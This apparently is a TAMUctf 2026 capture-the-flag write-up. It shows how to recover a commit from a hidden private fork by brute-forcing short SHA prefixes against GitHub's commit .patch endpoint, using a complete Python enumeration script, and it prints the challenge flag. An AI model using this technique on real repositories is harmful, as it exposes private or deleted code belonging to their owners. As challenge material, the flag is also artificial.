


## Overview

In `Phantom2` (the second part of a 2-part challenge during TAMUctf 2026), we are given once again a link to an almost "empty" GitHub repository with a single commit and a single `README.md` file.

Just as in the previous challenge, any attempt to search for the flag in the commit history, branches, tags, and metadata in `/.git` was unsuccessful. And just as in the previous challenge, the focus shifted from analyzing the git repository to analyzing its GitHub footprint.

## Footprint


This time the clue came from a leak in the repository network metadata. The main signal was a mismatch between the fork count shown in the GitHub UI, the list of forks visible on the public forks page / `network/members` page, and the repository events feed.

First we checked the public repository page and noted the fork counter. Then we enumerated the public forks from the forks page / network members page. Finally, we inspected the repository events feed for `ForkEvent` and `PushEvent` entries.

These were the commands we used to check these surfaces:

```bash
curl -fsSL https://api.github.com/repos/tamuctf/phantom2/events
curl -fsSL https://api.github.com/repos/tamuctf/phantom2/forks?per_page=100
```

and we also checked the public forks listing at [https://github.com/tamuctf/phantom2/network/members](https://github.com/tamuctf/phantom2/network/members)

The critical observation was that these sources did not agree.

* the events feed referenced a private fork at `cobradev4/phantom2`
* that fork was associated with the challenge author's account
* the same fork path did not appear as a normal public fork in the public forks listing
* a push event for that fork appeared shortly after the fork was created

That is exactly what made `cobradev4/phantom2` interesting. It was not just "another fork." It was the only fork path tied to the author account and the only one that fit the hidden-history model.

## Recovery

This opens an interesting path. If GitHub resolves commit objects across the repository's fork network, then a commit pushed to a private fork might still be retrievable from the public repository's commit patch endpoint, provided we know a matching SHA prefix.

The working hypothesis was:

* The author pushed a commit with the flag into their private fork.
* GitHub still resolved that object through the fork network, even if the commit was not visible in the public repository.

If that hypothesis was correct, we could test it with GitHub's standard commit patch endpoint:

```bash
https://github.com/tamuctf/phantom2/commit/<prefix>.patch
```



This behaved as a prefix oracle: if the prefix matched a commit object in the repository, we got an `HTTP 200` response with the patch. If it did not match, we got an `HTTP 404` response. We also had to handle `HTTP 429` and `HTTP 5xx` responses to avoid misclassifying possible matches as non-matches.

## Feasibility

The remaining question was whether that recovery path was practical.

Using 4 hex characters gives a search space of $16^4 = 65,536$ prefixes, which is small enough to enumerate in practice. The important point is that we were not brute-forcing full commit hashes. We were enumerating a small short-prefix space against a route that GitHub was willing to resolve.

## Solution

The solution we executed was to brute-force search for the commit containing the flag. We used the GitHub commit patch endpoint on the standard GitHub URL, and the solver iterated over all 4-hex prefixes to identify which ones corresponded to existing commits in the repository.



```python
from __future__ import annotations

import time
from urllib import error, request

REPO = "tamuctf/phantom2"
PREFIX_LENGTH = 4
DELAY = 0.05
TIMEOUT = 15
RETRIES = 5
BACKOFF = 0.5

RETRYABLE = {429, 500, 502, 503, 504}
HEADERS = {
    "User-Agent": "phantom2-scan",
    "Accept": "text/plain, */*",
}


def probe(url: str) -> int:
    attempt = 0
    while True:
        req = request.Request(url, headers=HEADERS)
        try:
            with request.urlopen(req, timeout=TIMEOUT) as resp:
                return resp.getcode()
        except error.HTTPError as exc:
            if exc.code in RETRYABLE and attempt < RETRIES:
                time.sleep(BACKOFF * (2**attempt))
                attempt += 1
                continue
            return exc.code
        except Exception as exc:  # noqa: BLE001
            if attempt < RETRIES:
                time.sleep(BACKOFF * (2**attempt))
                attempt += 1
                continue
            print(f"error {url} {exc}", flush=True)
            return 0


def main() -> None:
    total = 16**PREFIX_LENGTH
    hits: list[str] = []

    print(f"starting repo={REPO} total={total}", flush=True)

    for index in range(total):
        prefix = f"{index:0{PREFIX_LENGTH}x}"
        url = f"https://github.com/{REPO}/commit/{prefix}.patch"
        status = probe(url)

        if status == 200:
            hits.append(prefix)
            print(f"hit {prefix}", flush=True)

        if (index + 1) % 100 == 0:
            print(f"progress {index + 1}/{total} hits={len(hits)}", flush=True)

        time.sleep(DELAY)

    print("done", flush=True)
    print("hits:", " ".join(hits), flush=True)


if __name__ == "__main__":
    main()

```

> Note: The use of `urllib` instead of `requests` was because the solver only needed simple GET requests and HTTP status codes.

After iterating through the possible prefixes, we found the following commits:

* `432c`
* `454b`
* `d3ca`
* `dd21`

We knew `454b` resolved to the initial commit in the public repository, so we focused on the other three commits. After analyzing the patches, we found that the commit with prefix `d3ca` exposed the flag in its patch, and we were able to recover it by accessing: [https://github.com/tamuctf/phantom2/commit/d3ca.patch](https://github.com/tamuctf/phantom2/commit/d3ca.patch)

The content of the patch was:

```patch
From d3cab66d23265b36ecd8cd410554bdfc603e3416 Mon Sep 17 00:00:00 2001
From: Noah Mustoe <62711423+cobradev4@users.noreply.github.com>
Date: Sat, 21 Mar 2026 11:04:47 -0500
Subject: [PATCH] Add flag (if you comment on this commit, you will be banned)

---
 README.md | 6 +++++-
 1 file changed, 5 insertions(+), 1 deletion(-)

diff --git a/README.md b/README.md
index 4345918..699ec43 100644
--- a/README.md
+++ b/README.md
@@ -1 +1,5 @@
-# phantom2
\ No newline at end of file
+# phantom2
+
+```
+gigem{57up1d_917hu8_3v3n7_4p1_a8f943}
+```
```
And with that, we were able to recover the flag: `gigem{57up1d_917hu8_3v3n7_4p1_a8f943}`.

> The flag text strongly suggests that the author intended solvers to notice the GitHub events leak and recover the hidden fork activity from there. In our solve, the events leak gave us the model, but the actual object recovery came from the short-prefix `.patch` oracle.

## Conclusion

Both `Phantom1` and `Phantom2` highlight an important lesson about how GitHub can expose hidden repository history. This challenge appears to rely on GitHub resolving commit objects across fork-related storage in a way that made hidden fork activity recoverable via short SHA prefixes. In this case, enumerating 4-character prefixes against the commit patch endpoint was enough to recover the flag-bearing commit. This concept, technically defined as Cross Fork Object Reference (CFOR), was identified by [Truffle Security](https://trufflesecurity.com/) in July 2024. If you want to learn more about it, check their blog post: [Anyone can Access Deleted and Private Repository Data on GitHub](https://trufflesecurity.com/blog/anyone-can-access-deleted-and-private-repo-data-github).
